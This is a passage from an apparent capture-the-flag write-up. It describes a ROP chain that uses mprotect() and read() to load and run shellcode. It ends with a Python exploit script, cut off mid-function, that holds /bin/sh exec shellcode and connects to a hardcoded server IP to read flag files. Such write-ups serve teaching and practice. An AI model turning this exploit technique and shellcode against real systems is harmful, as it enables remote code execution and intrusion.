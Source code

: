 Setting these up in a ROP chain, we can call mprotect() with our own given parameters, then call read() to read in new shellcode into the mprotect'd memory, and then jump to the shellcode. The ROP chain is shown below:

```
password+0:  0              -- unused
password+4:  0x080485D0     -- return #1 to mprotect()
password+8:  0x080485AE     -- return #2 to adjust esp
password+12: 0x08048000     -- mprotect parameter #1, the address
password+16: 0x1000         -- mprotect parameter #2, the size
password+20: 7              -- mprotect parameter #3, read/write/execute
password+24: 0x080485E0     -- return #3 to read()
password+28: 0x08048DBC     -- return #4 to shellcode
password+32: 0              -- read parameter #1, stdin file descriptor
password+36: 0x08048DBC     -- read parameter #2, shellcode address
password+40: 0x40           -- read parameter #3, shellcode size
```

## Solution

Finally, putting all of this together in a script we can send our format string, ROP chain, and shellcode to the server.

```python
import socket
import time
import sys
import struct

addr_esp_plus_c = 0x080485AE
addr_mprotect = 0x080485D0
addr_shellcode = 0x08048DBC
addr_read = 0x080485E0
size_shellcode = 0x40
ROP = struct.pack('IIIIIIIIIII',0,addr_mprotect,addr_esp_plus_c,addr_shellcode&~0xfff,0x1000,7,addr_read,addr_shellcode,0,addr_shellcode,size_shellcode)
ROP = ROP + bytes([0xcc]*(0x40-len(ROP)))

# msfvenom -p linux/x86/exec CMD=/bin/sh -f python
SHELLCODE = b''
SHELLCODE += b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f"
SHELLCODE += b"\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x08"
SHELLCODE += b"\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x53"
SHELLCODE += b"\x89\xe1\xcd\x80"
SHELLCODE = SHELLCODE + bytes([0xcc]*(size_shellcode-len(SHELLCODE)))

def do_send(username):

	s = socket.socket()
	s.settimeout(10)
	s.connect(('18.205.93.120',1220))
	data = b''
	while not data.endswith(b'username:\x1b[0m '):
		data = data + s.recv(10240)
	username = username + b' ' * (11-len(username))

	s.send(username+ROP+SHELLCODE)
	print(s.recv(1024))

	time.sleep(1)
	s.send(b'cat flag\n')
	s.send(b'ls -al\n')
	s.send(b'cat the_real_flag\n')
	try:
		data = s.recv(1024)
```
